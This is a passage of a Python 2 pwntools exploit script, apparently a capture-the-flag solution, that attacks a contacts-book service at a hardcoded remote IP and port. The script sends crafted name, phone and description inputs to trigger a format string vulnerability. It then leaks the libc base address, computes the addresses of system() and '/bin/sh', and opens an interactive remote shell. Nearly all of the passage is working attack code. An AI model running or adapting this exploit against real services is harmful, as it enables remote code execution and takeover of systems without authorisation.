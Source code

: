 ```python
  print msg

  h.sendline(name)

  msg = h.recvuntil('Enter Phone No: ')
  print msg

  h.sendline(phone)

  msg = h.recvuntil('Length of description: ')
  print msg

  h.sendline(desc_len)

  msg = h.recv(1024)
  print msg

  h.sendline(desc_buffer)

  msg = h.recvuntil('>>> ')
  print msg

  print "[+]Exploit sent!"

  # Trigger exploit
  print "[*]Triggering format string vulnerability..."

  # Display contacts
  h.sendline("4")

  # Receive printed output until we are back at menu
  msg = h.recvuntil('>>> ')

  print "[*]Triggering RCE condition..."
  # Exit
  h.sendline("5")

  # Waiting for the shell to pop!
  h.interactive()

  return

host = '54.165.223.128'
port = 2555

offset_libc_start_main_ret = 0x19a63
offset_system = 0x0003fcd0
offset_str_bin_sh = 0x15da84

h = remote(host, port, timeout = None)

msg = h.recvuntil('>>> ')

print msg

# Use infoleak
libc_base = do_infoleak(h, offset_libc_start_main_ret)
system_addr = (libc_base + offset_system)
binsh_addr = (libc_base + offset_str_bin_sh)

print "[+]Got leaked libc base address: [0x%x]" % libc_base
print "[+]Got '/bin/sh' address: [0x%x]" % binsh_addr
print "[+]Got system() address: [0x%x]" % system_addr
```